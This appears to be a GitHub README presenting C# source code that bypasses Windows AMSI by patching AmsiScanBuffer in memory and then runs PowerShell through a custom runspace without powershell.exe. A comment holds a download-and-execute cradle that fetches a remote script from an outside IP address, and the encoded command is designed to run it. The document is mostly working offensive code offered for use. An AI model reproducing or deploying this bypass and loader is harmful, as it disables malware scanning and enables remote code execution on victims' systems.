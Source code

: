 
The AMSI Bypassing along with System.Management.Automation.Runspaces which doesn't requeire the powershell.exe to execute powershell commands.
The Powershell.exe is just interpret of .NET assembly System.Management.Automation.dll to execute OS Command and invoke PowerShell commands.
System.Management.Automation.dll file is loaded when powershell.exe open up. hence I do not rely on powershell.exe to execute OS command and Invoke powershell command, 
because We can write our own interpreter to execucate any OS Command without having powershell.exe. in conclusion if someone had asked me that how Do we prevent from powershell base attack.

**This AMSI Patching Techniques is heavy reliance on rastamouse's Techniques, there is something to keep in mind that the technique I utilized is being detected by most an Enpoint solution gradually .**


```
using System;
using System.Runtime.InteropServices;
using System.Management.Automation.Runspaces;
using System.Management.Automation;
using System.Text;

namespace Gawdawpalin 
{
    class Program
    {
        static void Main(string[] args)
        {

            var AmsiDLL = LoadLibrary("amsi.dll"); // Load the amsi.dll  to obtain The AmsiScanBuffer Address
            var asbAddress = GetProcAddress(AmsiDLL, "AmsiScanBuffer");

            var ret = new byte[] { 0xc3 }; //patch opcode
            VirtualProtect(asbAddress, (UIntPtr)ret.Length, 0x40, out uint oldProtect); //Pointer changing the AmsiScanBuffer memory protection
            Marshal.Copy(ret, 0, asbAddress, ret.Length);
            VirtualProtect(asbAddress, (UIntPtr)ret.Length, oldProtect, out uint _);
            Shwegugyi.MeMe();

        }

        class Shwegugyi 

        {
            //$OriginalCommand = "iex (New-Object Net.WebClient).DownloadString('https://54.18.24.199:7775/download/Bagan.ps1')"
            //[System.Convert]::ToBase64String([System.Text.Encoding]::unicode.GetBytes($OriginalCommand))
            public static string Command = System.Text.Encoding.UTF8.GetString(System.Convert.FromBase64String(@"Base64 Data"));
            
            public static void MeMe()
            {
                InitialSessionState p = InitialSessionState.CreateDefault();
                Runspace rspace = RunspaceFactory.CreateRunspace(p);
                rspace.Open();
                PowerShell Evil = PowerShell.Create();
                Evil.Runspace = rspace;
                Evil.AddScript(Command);
                Evil.Invoke();
                rspace.Close();
            }
        }

        //Importing The Necessary WInAPI to Load the LoadLibrary other related to system function.

        [DllImport("kernel32.dll")]
        public static extern IntPtr LoadLibrary(string name);

        [DllImport("kernel32.dll")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

    }
}

```
